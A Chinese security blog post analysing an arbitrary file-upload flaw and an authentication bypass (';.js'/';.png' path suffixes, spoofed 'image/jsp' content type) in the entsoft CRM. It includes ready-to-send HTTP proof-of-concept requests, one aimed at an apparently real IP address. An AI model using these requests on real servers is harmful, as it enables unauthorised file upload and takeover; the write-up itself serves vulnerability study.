









# 某恩特漏洞分析 - 先知社区

某恩特漏洞分析

- - -

0X01 前言  
最近这段时间某恩特，公众号到处在发，该系统的 0day 漏洞，可谓是漫天飞了，且利用方式也及其简单，本文就是对该系统目前所爆出来的漏洞进行一个漏洞分析，并在最后给出一个该系统未被公布的 0day  
基本上都是这两天的，非常的集中  

0X02 漏洞分析  
我们来看一下最开始原始的 POC

POST /entsoft\_en/entereditor/jsp/fileupload.jsp?filename=1.jsp HTTP/1.1  
Host: x.x.x.x  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_14\_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15  
Connection: close  
Content-Length: 27  
Accept: */*  
Accept-Encoding: gzip, deflate  
Accept-Language: en  
Content-Type: application/x-www-form-urlencoded

11111  
定位到 fileupload.jsp 文件，只能说相当的简单粗暴有没有，获取输入流，获取文件名，直接保存导致任意文件上传的发生  
  
但实际在测试过程中，发现该漏洞影响范围并不是很多，很多均进行了修复，我在测试过程中仅仅成功了 2 个  
  
且这套系统对 jsp 之类的脚本文件均做了鉴权，也就是说先前爆出来的漏洞 fileupload.jsp 在开发者允许访问白名单中  
  
继续深入探索，查看 web.xml，发现 Filter，通过 jd-gui 反编译 common.jar 文件即可查看相关代码  
  
从字面意思上，就可以看见排除了如下后缀，和路径文件  
  
其判断鉴权部分模块，通过 contains 来判断是否包含需要排除的字符和路径  
  
所以访问 jsp 文件或者需要登录的文件我们可以通过在后缀;.js ;.jpg;.html 等方式绕过登录限制  
  
  
而 entsoft\_en 也赫然在列，再去看看 entsoft 中的 filupload.jsp，和其他相关的 upload  
  
依然是个妥妥的任意文件上传，只不过判断了文件是否是 jpg，如果是后缀就变成了 jpeg  
  
继续查看 web.xml  
  
定位到实现类，  
  
反编译查看  
  
定位到 MailAction，获取到了三个参数，method，act，eid，后面判断 method 和 act 是对应的值，如果是则跳到对应的实现方法中，比如 saveAttaFile�  
我们主要看获取文件名的操作，以及文件名是否可控，可以看见，并未对文件后缀进行任何过滤，导致任意文件上传的发生  
  
利用 POC  
POST /entsoft/MailAction.entphone;.png?act=saveAttaFile HTTP/1.1  
Host: xx  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed exchange;v=b3;q=0.9  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A  
Content-Length: 179

\------WebKitFormBoundarye8FPHsIAq9JN8j2A  
Content-Disposition: form-data; name="file";filename="beautif.js"  
Content-Type: xxx/txt

1  
\------WebKitFormBoundarye8FPHsIAq9JN8j2A--  
POC 中的;.png 同上，绕过登录限制，继续查看该代码文件发现其 AppUpload�方法也存在文件上传功能，其文件名判断了 contentype 是否不为空，以及 contentype 是否包含 image，之后在取 contentype 中的值作为后缀，我们可以通过 image/jsp 绕过

最新的 POC  
POST /entsoft/MailAction.entphone;.js?act=AppUpload&bodyID=1 HTTP/1.1  
Host: 47.91.254.208  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0  
Accept: application/json, text/javascript, */*; q=0.01  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
X-Requested-With: XMLHttpRequest  
Content-Type: multipart/form-data; boundary=---------------------------255059884712683317431739889351  
Content-Length: 259  
Origin:  
Connection: close  
Referer:  
Cookie:

\-----------------------------255059884712683317431739889351  
Content-Disposition: form-data; name="file"; filename="1.png"  
Content-Type: image/jsp

<%= (new java.util.Date()).toLocaleString()%>  
\-----------------------------255059884712683317431739889351--  
其他 Action 中基本上只要有上传基本上都有该类问题，比如/entsoft/CustomerAction.entphone;.js?method=loadFile，注入什么的也不少，该有的漏洞他都有，主要该系统影响的范围也不小，基本上都是通杀的类型。  
0X03 总结  
感觉最值得利用的一点就是鉴权绕过的方式，我们在黑盒测试的过程中，可以多试试;.js ;.png 之类的方式，以及通过/xxx 可访问的路径/../鉴权路径目录穿越的方式，说不定也有奇效，总之需要不断的学习呀，如有问题欢迎各位师傅指正。
